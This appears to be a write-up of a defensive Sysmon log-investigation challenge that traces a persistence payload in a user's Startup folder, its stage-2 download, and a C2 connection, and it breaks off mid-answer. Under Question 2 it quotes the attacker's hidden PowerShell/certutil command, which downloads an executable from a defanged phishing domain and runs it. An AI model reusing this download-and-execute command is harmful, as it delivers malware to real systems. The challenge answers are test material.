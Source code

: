 Significant Data Sources: 

- Sysmon
### Question 1

> The malicious execution of the payload wrote a file on the system. What is the full path of the payload?

Let's filter down to file create (Event 11) and where the TargetFilename (PayloadData4) contains the Startup Directory.

**Answer**: `C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.zip`
### Question 2

> The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?

So far we know the following:

- The Autostart execution reflects explorer.exe as its parent process.
- The target user, as per the path is benimaru

Filtering on these (parent process = explorer, user = benimaru and EventID = 1) we are left with the following:

![](https://i.imgur.com/fapoD4T.png)

**Answer**:

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f ‘[http[://]phishteam[.]xyz/02dcf07/first.exe'](http://phishteam.xyz/02dcf07/first.exe') C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
```
### Question 3

> Based on the Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?

I believe only EventID 1 records the files hash, so let's look at the execution to answer this question. (Executable Info (Child Process) of first.exe we are interested in right now, not the Parent Process. If you recall, in the certutil command run, the binary was also executed).

**Answer**: CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
### Question 4

> The stage 2 payload downloaded establishes a connection to a C2 server. What is the domain and port used by the attacker?

They have just downloaded their stage 2 and then executed it, so let's take a look at what it's doing by setting our ParentProcess to the first.exe

![](https://i.imgur.com/wmnJ6kf.png)

We see some recon/discovery, which we may return to shortly, followed by an outbound connection established using `ch.exe`.
